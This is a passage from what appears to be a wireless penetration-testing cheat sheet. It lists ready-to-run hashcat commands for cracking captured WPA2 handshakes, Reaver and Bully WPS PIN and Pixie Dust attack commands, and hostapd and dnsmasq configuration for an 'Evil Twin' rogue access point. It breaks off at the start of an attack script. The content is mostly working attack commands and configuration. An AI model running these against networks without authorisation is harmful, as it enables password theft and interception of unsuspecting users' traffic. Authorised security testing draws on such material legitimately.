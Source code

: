 ```bash

# Advanced Hashcat Rules
hashcat -m 2500 -r /usr/share/hashcat/rules/best64.rule hashcat_format.hccapx wordlist.txt
hashcat -m 2500 -a 3 hashcat_format.hccapx ?d?d?d?d?d?d?d?d  # Mask attack for numeric passwords
```

**Documentation**: WPA2 handshake capture and offline password cracking using dictionary and brute force attacks.
**Limitations**: Requires strong password list; time-intensive for complex passwords; WPA3 provides better protection.

### WPS (Wi-Fi Protected Setup) Attacks
```bash
# WPS PIN Attack (Reaver)
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv             # Basic WPS PIN attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -d 15 -t 10 -c 6  # With delays and timeouts
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -K 1        # Use small DH keys

# WPS Pixie Dust Attack (Bully)
bully -b AA:BB:CC:DD:EE:FF -c 6 wlan0mon                # WPS PIN attack with bully
bully -b AA:BB:CC:DD:EE:FF -c 6 -d -v 3 wlan0mon        # Verbose pixie dust attack

# WPS Information Gathering
wash -i wlan0mon                                         # Scan for WPS-enabled APs
wpscan -i wlan0mon                                       # Alternative WPS scanner
```

**Documentation**: WPS attacks exploit implementation flaws to recover WPA2 passwords.
**Limitations**: WPS must be enabled; some implementations have rate limiting; modern routers disable WPS.

## Evil Twin and Rogue Access Point Attacks

### Evil Twin Access Point Setup
```bash
# Hostapd Configuration (evil_twin.conf)
interface=wlan1
driver=nl80211
ssid=Free_WiFi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0
auth_algs=1
wpa=2
wpa_passphrase=password123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP

# DHCP Server Configuration (dnsmasq.conf)
interface=wlan1
dhcp-range=192.168.4.2,192.168.4.30,255.255.255.0,12h
dhcp-option=3,192.168.4.1
dhcp-option=6,192.168.4.1

# Evil Twin Attack Script
#!/bin/bash
# evil_twin_attack.sh

TARGET_SSID="Target_Network"
INTERFACE_MON="wlan0mon"
INTERFACE_AP="wlan1"
```